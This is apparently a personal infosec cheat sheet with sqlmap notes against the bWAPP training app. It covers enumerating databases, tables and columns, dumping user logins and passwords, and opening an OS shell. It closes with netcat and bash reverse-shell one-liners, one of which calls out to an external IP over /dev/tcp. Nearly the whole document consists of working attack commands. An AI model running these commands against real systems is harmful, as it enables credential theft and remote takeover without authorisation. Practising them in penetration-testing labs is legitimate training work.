 # Infosec
My InfoSec Cheat sheet and stuff


------

sqlmap 

------

OK so we've got SQLMap, but how do we release it upon our target?
INJECTION TESTING
Gathering commonly needed elements
Cookies
POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"

